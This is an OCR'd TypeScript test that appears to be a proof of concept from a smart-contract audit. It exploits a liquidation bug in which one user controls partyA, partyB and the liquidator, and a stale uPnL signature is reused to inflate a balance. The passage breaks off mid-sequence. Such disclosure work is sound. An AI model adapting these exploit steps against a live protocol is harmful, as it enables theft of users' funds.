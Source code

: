 ```ts
  this.user2 = new User(this.context, this.context.signers.user);
  await this.user2.setup();
  await this.user2.setBalances(this.protocol_allocated, this.protocol_allocated, 0);

  // exploiter user controls partyA, partyB and liquidator
  this.user = new User(this.context, this.context.signers.user);
  await this.user.setup();
  await this.user.setBalances(this.user_allocated, this.user_allocated, this.user_allocated);

  this.hedger = new Hedger(this.context, this.context.signers.hedger);
  await this.hedger.setup();
  await this.hedger.setBalances(this.hedger_allocated, this.hedger_allocated);

  this.liquidator = new User(this.context, this.context.signers.liquidator);
  await this.liquidator.setup();

  // open 2 opposite direction positions with user-controlled hedger to exploit them later
  // (positions with slightly different sizes so that at some point the hedger can be liquidated)
  await this.user.sendQuote(limitQuoteRequestBuilder()
    .quantity(decimal(11000))
    .price(decimal(1))
    .cva(decimal(100)).lf(decimal(50)).mm(decimal(40))
    .build()
  );
  await this.hedger.lockQuote(1, 0, decimal(2, 16));
  await this.hedger.openPosition(1, limitOpenRequestBuilder().filledAmount(decimal(11000)).openPrice(decimal(1)).price(decimal(1)).build());

  await this.user.sendQuote(limitQuoteRequestBuilder()
    .positionType(PositionType.SHORT)
    .quantity(decimal(10000))
    .price(decimal(1))
    .cva(decimal(100)).lf(decimal(50)).mm(decimal(40))
    .build()
  );
  await this.hedger.lockQuote(2, 0, decimal(2, 16));
  await this.hedger.openPosition(2, limitOpenRequestBuilder().filledAmount(decimal(10000)).openPrice(decimal(1)).price(decimal(1)).build());

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);
  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  // price goes to 0.9, so partyA is in a loss of -100 and becomes liquidatable
  // user now exploits the bug by liquidating partyA
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePartyA(
    this.user.signer.address,
    await getDummySingleUpnlSig(decimal(-100)),
  );

  await context.liquidationFacet.connect(this.liquidator.signer).setSymbolsPrice(
      this.user.signer.address,
      await getDummyPriceSig([1], [decimal(9, 17)], decimal(-100), decimal(1100)),
    );

  // get partyB upnl signature before partyA position is liquidated (at which time partyB has upnl of +100)
  var previousSig = await getDummySingleUpnlSig(decimal(100));

  // liquidate only quote 1 (temporarily inflating balance of controlled partyB)
```